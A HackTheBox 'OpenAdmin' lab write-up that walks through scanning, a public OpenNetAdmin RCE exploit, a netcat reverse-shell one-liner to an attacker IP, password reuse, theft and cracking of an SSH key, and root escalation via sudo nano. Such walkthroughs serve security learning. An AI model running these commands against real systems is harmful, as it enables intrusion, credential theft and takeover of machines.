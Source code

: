 ```yaml
---
title: OpenAdmin - easy HTB
date: 2023-10-10 10:11:53 +/-0800
categories: [writeup, HackTheBox]
writeup: :title
permalink: /openadmin
tags: [CVE, Web]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Easy**
- Author: **4nh4ck1ne**

### Scanning 

the challenges start with a scan of the most common ports: `nmap -A 10.10.10.171 -T4`

```       
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

We can see it is an Ubuntu machine !

### Enumeration 

before walk on the app you can lauch a gobuster brute force scan: `gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]

```

If you go on `/music` you can see an bouton name login. 

![/music](/assets/OpenAdmin/music.png)

Yon are redirect to an web page `/ona`, it is an app named OpenNetAdmin lets if an exploit existe on this current version (v18.1.1).

![ona](/assets/OpenAdmin/Ona.png)

Seems that yes because on exploitdb can find a code to exploit the vulnerability more it is an rce, this vulnerability will give us directly access to the server. If we look for a POC in python that works well. [POC](https://github.com/amriunix/ona-rce/tree/master)

```
#install reqirements
pip3 install --user requests

#Get the POC
git clone https://github.com/amriunix/ona-rce.git

#lauche the exploit
python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We are on the machine! I will migrate my shell to a tty shell thanks to a pwncat:

```
#lauch pwncat
pwncat :9001

#run the reverse connection
sh$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.3 9001 >/tmp/f
```

### Privileges Escalation

the first mouvement is www-data => jimmy so we now have a stable shell. To begin the elevation of privileges we will look at the files of the website at the password quetes.

in the site folders we can find in this directory /local/config a file named "database_settings.inc.php" containing a mysql database password.

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

I have tried to access the local database that which feasible but no information interested is there. I then try to reuse password on local users (joanna, jimmy) and that market for jimmy we are now jimmy : `su jimmy
#enter password n1nj4W4rri0R!`


Ok we are now jimmy user next is to become joanna.

If we are still looking in the web file you will necessarily see from the rating of/var/www. you will still find counting in /html we will say that this sounds the web file that we had everything with gobuster. If we look at the side of "internal" a whole new world offered to us. If we look at the confiuguration side of the apache2 server we can see that there is an active virtualhost on port 52846.

```
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Let’s look at the php file more pret including main.php: `cat main.php
`

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

it seems that this application displays the private key of the user joanna tries to curl the url and see the result: `curl http://localhost:52846/main.php`

BIIM we have joanna’s private key, try to connect with: 
```
chmod 600 id_rsa

ssh -i id_rsa joanna@10.10.10.171                           
Enter passphrase for key 'id_rsa': 
```

Thin the key is protected by a passphrase let’s try cracking with john.

```
ssh2john id_rsa > passphrase.txt

john passphrase.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We have cracked the key we can now log in and enter the secret of the key.

ok we are now on user Joanna to start enumeration I directly look at the sudo rights.

```
sudo -l

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

So the user joanna can therefore launch the command/bin/nano/opt/priv without password with must root, well let’s look at [GTfobins](https://gtfobins.github.io/#+sudo)  if there is a way to abuse nano.

![gtfobins](/assets/OpenAdmin/Gtfobins.png)

the abuse of nano binary is done as follows:

```
sudo /bin/nano /opt/priv

#Press control and R touch
^R
#Press ctrl+x touche
^X
#run the command
reset; sh 1>&0 2>&0
```

you Get the root Great job !! 

![root](/assets/OpenAdmin/root.png)
